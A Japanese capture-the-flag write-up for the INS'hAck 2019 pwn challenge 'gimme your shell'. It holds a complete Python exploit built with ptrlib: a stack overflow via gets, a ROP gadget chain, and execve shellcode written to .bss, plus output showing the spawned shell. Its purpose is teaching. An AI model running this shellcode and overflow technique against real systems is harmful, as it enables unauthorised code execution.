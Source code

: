 # [pwn 50pts] gimme your shell - INS'hAck 2019
64ビットで全部無効です。
```
$ checksec -f weak
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   67 Symbols     No	0		2	weak
```

IDAで解析しましょう。
ご丁寧にvulnという名前の関数が用意されています。
中ではgetsを呼んでいて明らかなスタックオーバーフローですね。

せっかくNXが無効なのでsystem関数は使わずにshellcode実行をします。
`pop rdi`が無かったのですが、替わりに`mov edi, dword [rsp+0x30] ; add rsp, 0x38 ; ret`という良い感じのgadgetがあったのでこれを使いました。
bssセクションにshellcodeを書き込むのですが、bssセクションはアドレスに0x0aが入っていたので注意です。

```python
from ptrlib import *

elf = ELF("./weak")
sock = Process("./weak")

shellcode = b'\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'
plt_gets = 0x400450
ptr_sh = elf.section(".bss") + 0x100
rop_mov_edi_add_rsp = 0x400650

payload = b'A' * 0x18
payload += p64(rop_mov_edi_add_rsp)
payload += p64(0) * (0x30 // 8)
payload += p64(ptr_sh)
payload += p64(plt_gets)
payload += p64(ptr_sh)

sock.recvuntil("president.\n")
sock.sendline(payload)

sock.send(shellcode)

sock.interactive()
```

おしまい。
```
$ python solve.py 
[+] Process: Successfully created new process (PID=16433)
Oh I remember !
[ptrlib]$ id
uid=1000(ptr) gid=1000(ptr) groups=1000(ptr),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare),999(docker)
```

# 感想
解き方はいろいろありますが、初心者向けだと思います。
